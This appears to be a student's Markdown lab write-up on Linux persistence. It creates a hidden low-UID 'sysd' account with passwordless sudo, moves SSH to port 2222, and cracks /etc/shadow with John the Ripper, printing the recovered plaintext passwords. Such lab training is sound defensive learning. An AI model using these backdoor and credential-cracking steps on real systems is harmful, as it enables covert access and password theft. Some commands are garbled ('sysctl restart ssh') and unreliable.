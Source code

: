 # Advanced Bash Scripting

### Shadow People
- Creating new secret user named `sysd`: `useradd sysd`
- Creating password for user: `sudo passwd sysd`
- Give secret user a sys ID < 1000: `sudo usermod -u 500 sysd`
- Give user the same GID: `sudo groupmod -g 500 sysd`
- Give user full sudo access w/ out password: `sudo visudo`
- Test sudo works w/out need for password:
```
sudo -l
sudo -lu sysd
sudo -v
sudo adduser Steph
sudo deluser Steph
```

### Smooth Sailing
- Edit `sshd_config` file:
![Diagram](https://github.com/aele1401/Linux/blob/main/Bash_Scripting/sshd_config.png)

### Testing Configuration Update
- Restart SSH service: `sudo sysctl restart ssh`
- Exit `root` user account: `exit`
- SSH into target using `sysd` account and port `2222`: `ssh sysd@192.168.1.105 -p 2222`
- Switch to `root` user: `sudo su root`

### Password Cracking
- SSH back to system with `sysd` account and port `2222`: `ssh sysd@192.168.1.105 -p 2222`
- Escalate privileges to `root` and use John-Ripper to crack the `/etc/shadow` directory:
    * `sudo su root`
    `john /etc/shadow`
    * Result:
    ```
    • sysadmin:passw0rd:18387:0:99999:7::: • student:Goodluck!:18387:0:99999:7::: • mitnik:trustno1:18387:0:99999:7::: • babbage:freedom:18387:0:99999:7::: • lovelace:dragon:18387:0:99999:7::: • stallman:computer:18387:0:99999:7::: • turing:lakers:18387:0:99999:7::: • sysd:password:18841:0:99999:7:::
    ```


